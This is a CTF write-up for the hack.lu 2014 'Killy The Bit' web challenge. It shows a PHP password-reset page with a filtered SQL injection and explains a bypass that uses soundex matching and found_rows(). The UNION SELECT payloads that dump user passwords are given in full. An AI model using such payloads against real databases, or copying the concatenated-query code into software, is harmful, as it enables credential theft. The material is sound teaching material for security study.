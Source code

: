 ```yaml
---
layout: post
title:  "hack.lu CTF 2014: Killy The Bit"
author: f0rki
categories: writeup
tags: [cat/web, lang/php]
---
```


## Write-up

This was a fun challenge :) The setting was that the royal bank of Fluxembourg
was hacked by Killy the Bit and now they set up a page to reset the user
passwords. Because Killy owes us a favor we received the source code for the
password resetting page. So the whole thing was php using mysql as a database.
Inspecting the source you can easily spot the SQL injection vulnerability.  But
finding it wasn't the challenge, actually exploiting it was.


```php
<?php
include 'config.php';

// unintersting HTML output truncated

//<!-- blind? we will kill you :) -->
    if(isset($_GET['name'])
        && $_GET['name']!=''
        && !preg_match('/sleep|benchmark|and|or|\||&/i',$_GET['name']))
    {
        $res = mysql_query("SELECT name,email FROM user where name='".$_GET['name']."'");

        if(mysql_fetch_object($res)) {
            // Generation of new password
            //<topsecure content>
            // this was filtered during the creation of the phps file
            //</topsecure content>
            die("A new password was generated and sent to your email address!");
        } else {

            $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

            if(mysql_fetch_object($res)) {
                echo "We couldn't find your username, but it sounds like this user:<br>";
            } else {
                die("We couldn't find your username!<br>Are you sure it is ".htmlspecialchars($_GET['name'],ENT_QUOTES, 'utf-8')."?");
            }
            $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

            while($row = mysql_fetch_object($res)) {
                echo $row->name;
                echo "<br>";
            }
        }
    } else {
        // uninteresting HTML output truncated
    }
?>
```

As you can see on line 9 we cannot use and, or, sleep and benchmark in the
query which makes exploiting this a little tricky. In total the whole script
performs three queries. We do not see any output of the first two queries. Of
course we could do a blind SQL injection here, but this is made harder by the
preg_match filter. As it turns out we can craft an input so that the first
query returns 0 rows, the second one returns 1 row and the last query returns
all the possible rows. The key to this is the 'sounds like' part of the
last two queries. 'a sounds like b' is a shortcut for 'soundex(a)=soundex(b)'.


    > select soundex('admin'), soundex('admni');
    +------------------+------------------+
    | soundex('admin') | soundex('admni') |
    +------------------+------------------+
    | A350             | A350             |
    +------------------+------------------+


Now we can get to the last the query by using 'admni' as the value for the
name column in the where part of the query. Now we need to use union select
to actually fetch data. Unfortunately just simply injecting the following

    admni' union select passwd, email from user -- x

makes the first query to succeed and we don't see any output. So we need to
find a way to restrict the union select to return 0 rows in the first query.
Fortunately there exists the
[found_rows function ](https://mariadb.com/kb/en/mariadb/documentation/functions-and-operators/information-functions/found_rows/)
in mysql, which returns the number of rows found by the last query.
By injecting the following we can get the first query to return 0 rows and
thus we get to the interesting else branch.

    admni' union select passwd, email from user where found_rows() > 0 -- x

1. query: returns 0 rows, name='admni' is false, found_rows() is 0
2. query: return 1 row, sounds like 'admni' returns 1 result ('admin'),
   found_rows() is 0
3. query: returns lots of rows, souds like 'admni' is true, found_rows() is 1
   and therefore we get everything in the passwd column.

...and we got the flag :)

    flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}
